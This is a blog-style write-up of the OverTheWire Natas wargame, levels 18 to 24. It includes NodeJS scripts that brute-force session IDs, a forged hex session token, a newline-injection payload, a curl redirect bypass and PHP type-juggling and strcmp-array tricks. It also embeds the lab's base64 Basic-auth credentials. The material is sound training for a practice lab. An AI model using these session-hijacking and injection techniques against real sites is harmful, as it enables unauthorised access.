 ```yaml
---
layout: post
title: natas-writeup - lv18-lv??
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to ??."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:

{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```

## Level 19 ##

We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.

Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:

{% highlight javascript %}
const got = require('got');
const fs = require('fs');

const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
    headers: {
      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }                                                                                                                     });
});
{% endhighlight %}

But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!

Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!

For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`

## Level 20

This one is a little different from the previous 2 given the session ID seems pretty random. A quick look at the code however reveals a red flag. The `mywrite` function:


{% highlight php %}
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    } 
{% endhighlight %}

And `myread`:

{% highlight php %}
   foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1]; 
{% endhighlight %}

Whatever we pass in as the username will be written to file and read back as key/value pairs in the `$_SESSION` object. So if we could add `admin 1` as an entry, we'd be home free. In other words, we need to add a new line to get the `mywrite` function to essentially write 2 entries.

Modifying the request to `foo%0Aadmin%201` (with `\n` and `(space)` URL-encoded) does just that - though note I had to modify the request directly in Burp vs through the textbox for this to work.

## Level 21

We're presented with a page that states it is co-located with [natas21-experimenter](http://natas21-experimenter.natas.labs.overthewire.org/index.php). The code on the main page indicates we're back to figuring out how to stuff `admin=1` in `$_SESSION` - but there's nothing on this page that would allow us to change that.

The other page however (natas21-experimenter) allows user input - lots of it. Looking at the code, the following snippet jumps out:

{% highlight php %}
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
} 
{% endhighlight %}

We're free to add new parameters to `$_REQUEST` when submitting changes and those will be set in `$_SESSION` - yay!. Adding `&admin=1` to the `POST` parameters does the trick. However, this isn't the site we need those on.

Instead we grab the referer header along with the cookies and pass those back to the original site:

```
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc5dfb9ecd6e2ed04913757fe15630eb81548476605; PHPSESSID=d0vhsull9qme8gi98ic81etna5
```

This tricks it into re-using the session we created for `natas21-experimeter` - which contains `admin=1`. Done!

## Level 22

The source tells us the credentials for natas23 will only be displayed if `if(array_key_exists("revelio", $_GET))` - but the snippet at the top strips all our parameters (the `header` function is essentially a redirect).:

{% highlight php %}
if(array_key_exists("revelio", $_GET)) {
        // only admins can reveal the password
        if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
                header("Location: /");
        }
}
{% endhighlight %}

If we were to view this in say Firefox, the browser would automatically follow the redirect to `/`. But with `curl`, which doesn't follow redirects by default, it's easy: `curl -v --user natas22:<password_for_natas22> http://natas22.natas.labs.overthewire.org/?revelio -o - | grep Password`

## Level 23

The snippet of interest is as below:

{% highlight php %}
if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
                echo "<br>The credentials for the next level are:<br>";
                echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
                echo "<br>Wrong!<br>";
        }
}
{% endhighlight %}

`strstr` returns the first occurrence matching the string. The part that's interesting however is the numeric comparison `$_REQUEST["passwd"] > 10`. This being PHP, the way it 'converts' a string to a digit is by stripping all characers apart from numeric ones. So if `passwd=20plussomerandomtext`, in a string context this would be `20`. Funky heh?

## Level 24

This level highlights some more PHP oddities:

{% highlight php %}
f(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
{% endhighlight %}

`strcmp` is known to behave oddly when the first argument is an array (see the [official documentation](https://www.php.net/manual/en/function.strcmp.php), in the comments section). Try if for yourself [here](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_strcmp)! Passing in `?passwd[]=foo` as an argument does the trick.

## Level 25



